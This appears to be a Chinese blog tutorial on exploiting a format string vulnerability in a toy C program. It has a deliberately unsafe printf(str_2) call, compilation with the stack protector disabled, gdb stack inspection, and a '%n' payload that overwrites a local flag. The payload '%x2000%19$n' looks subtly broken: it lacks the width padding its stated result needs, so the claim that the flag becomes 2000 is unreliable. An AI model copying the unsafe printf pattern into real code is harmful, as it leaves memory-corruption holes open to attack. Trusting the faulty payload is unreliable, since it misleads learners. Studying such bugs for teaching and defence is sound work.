 ```yaml
---
title: 格式化字符串漏洞
date: 2018-05-15 09:40:36
categories: 安全
tags: 安全
---
```


## 代码
```
#include<stdio.h>
#include<stdlib.h>


char str_1[1000];

int main(void) {
    int flag = 9;
    int *p = &flag;
    char str_2[100];
    scanf("%s", str_2);
    printf(str_2);
    if(flag == 2000) {
        system("ls");
    }
    printf("\n%d\n", p);
    return 0;
}
```

## 编译
生成调试信息，关闭栈保护
```
gcc -g -Wall -o format-string format_string.c -fno-stack-protector
```

## 调试

### 加载可执行文件
```
gdb format-string
```

### 开始调试
```
start
```

### 执行到 scanf 位置
```
n 2
```

### 打印指针 p 的值
这一步的目的是根据显示的值去定位指针 p 在栈上的位置
```
print p

# 显示以下内容：
(int *) 0x7fffffffe394
```

### 查看栈上信息
可以看到 0x7fffffffe394 相对于栈顶指针所在的单元（每 8 个字节看成一个单元）位置是 13（从 0 开始编号），x86_64 还要考虑 6 个寄存器，所以 p 对应的编号为 19。
```
(gdb) x/20a $sp
0x7fffffffe330: 0x1     0x7ffff7a1d410
0x7fffffffe340: 0x7fffffffe450  0x7ffff7deeeef <_dl_runtime_resolve_sse+159>
0x7fffffffe350: 0xff00000000    0xff
0x7fffffffe360: 0x1     0x40069d <__libc_csu_init+77>
0x7fffffffe370: 0x0     0x0
0x7fffffffe380: 0x400650 <__libc_csu_init>      0x4004e0 <_start>
0x7fffffffe390: 0x9ffffe480     0x7fffffffe394
0x7fffffffe3a0: 0x400650 <__libc_csu_init>      0x7ffff7a2d830 <__libc_start_main+240>
0x7fffffffe3b0: 0x0     0x7fffffffe488
0x7fffffffe3c0: 0x100000000     0x4005d6 <main>
```

## 构造字符串
```
%x2000%19$n
```

## 测试
```
./format-string
输入字符串：%x2000%19$n
```
发现 flag 被改成了 2000。

## 参考
[格式化字符串漏洞简介](https://drops.secquan.org/binary/7714)


